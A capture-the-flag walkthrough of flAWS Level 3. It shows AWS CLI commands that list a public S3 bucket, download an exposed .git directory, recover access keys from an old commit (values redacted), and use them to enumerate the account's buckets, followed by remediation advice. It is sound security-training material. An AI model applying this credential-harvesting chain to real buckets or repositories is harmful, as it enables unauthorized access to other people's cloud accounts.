










# flAWS - Level 3

---

## Vulnerability Overview

This level chains two critical misconfigurations: a publicly accessible S3 bucket **containing a `.git` directory**, and credentials committed to Git history that were never properly purged.

Developers often delete sensitive files with a follow-up commit ("Oops, remove credentials"), not realizing that Git stores every version of every file forever. The credential file is gone from the working tree, but the original commit still exists in the object store — and anyone with access to `.git` can retrieve it with `git show <commit-hash>`.

This demonstrates a complete credential leak chain: exposed bucket → exposed `.git` → credential in commit history → full account access.

---

## Steps to Solve the Lab

**Step 1: Reading the Challenge**

The Level 3 challenge page hints: *"Time to find your first AWS key!"*



**Step 2: Listing Bucket Contents**

List the contents of the Level 3 bucket (no credentials needed — it's publicly readable like Level 1):

```bash
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --no-sign-request --region us-west-2
```

The bucket contains:

```bash
PRE .git/
123637 authenticated_users.png
  1552 hint1.html
  1426 hint2.html
  1247 hint3.html
  1635 hint4.html
  1861 index.html
    26 robots.txt
```

The presence of a `.git/` directory is a critical finding — an entire Git repository has been accidentally deployed into the S3 bucket.



**Step 3: Downloading the Exposed Git Repository**

Sync the entire `.git/` directory locally:

```bash
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/ . --region us-west-2
```

This downloads all Git objects — commits, blobs, refs, and the full object history.



**Step 4: Inspecting the Git Directory Structure**

Run `ls -la` to see the local `.git/` contents:

```
hooks/       Jan 10 17:55  (Git hooks)
info/        Jan 10 17:55
objects/     Jan 10 17:55  (all Git data stored here)
refs/        Jan 10 17:55  (branch/tag pointers)
config       Jan 10 17:55
HEAD         Jan 10 17:55
description  Sep 17
index        600 bytes
```



**Step 5: Viewing the Commit History**

Run `git log` (or `git log --oneline`) to list all commits:

```
b64c8dcf  (HEAD -> master)  Oops, accidentally added something I shouldn't have
f52ec03b                    first commit
```

The second commit message is a red flag — the developer tried to delete something sensitive.



**Step 6: Extracting Credentials from the First Commit**

Inspect the original commit to see what was added:

```bash
git show f52ec03b227ea6094b04e43f475fb0126edb5a61
```

The diff reveals a new file `access_keys.txt` being created with AWS credentials:

```diff
+access_key <access-key-id>
+secret_access_key <secret-access-key>
```

> **CTF Note:** The actual credential values are visible in the screenshot below. These are intentionally leaked challenge keys provided by flaws.cloud — they are expired and permanently rotated. This is a documented part of the challenge, not a real exposure.



**Step 7: Confirming the Credentials Were "Removed" but Not Purged**

The `git show` command also confirms the "Oops" commit only deleted the file from the working tree — the object store still contains the original blob with the credentials.



**Step 8: Configuring AWS CLI with the Leaked Credentials**

Configure a new AWS CLI profile with the credentials extracted from Git history:

```bash
aws configure --profile flaws
# AWS Access Key ID: <access-key-id>
# AWS Secret Access Key: <secret-access-key>
# Default region: us-west-2
```



**Step 9: Enumerating All S3 Buckets in the Account**

With the compromised profile, list all S3 buckets the key has access to:

```bash
aws s3 ls --profile flaws
```

Output reveals the entire account structure:

```
2017-02-12  2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29  config-bucket-975426262029
2017-02-12  flaws-logs
2017-02-05  flaws.cloud
2017-02-24  level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26  level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26  level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26  level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26  level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26  theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

A single leaked key gives a full view of the account. The Level 4 URL is now known.



---

## Key Takeaway

Deleting a file in a new commit does **not** remove it from Git history. Anyone with access to the `.git` directory can recover every previous version. If credentials are ever committed, they must be treated as permanently compromised — rotate them immediately and use `git filter-repo` (or BFG Repo-Cleaner) to purge the history.

## Remediation

- **Never commit secrets** — use `.gitignore` for credential files and environment variables for secrets.
- **Use pre-commit hooks** or tools like `git-secrets` / `truffleHog` to scan for secrets before they reach the repo.
- **Never expose `.git/`** in a web-served directory or cloud bucket — add `.git/` to bucket policies that deny public access.
- **If credentials are committed**: rotate them immediately, then purge history with `git filter-repo --path access_keys.txt --invert-paths`.


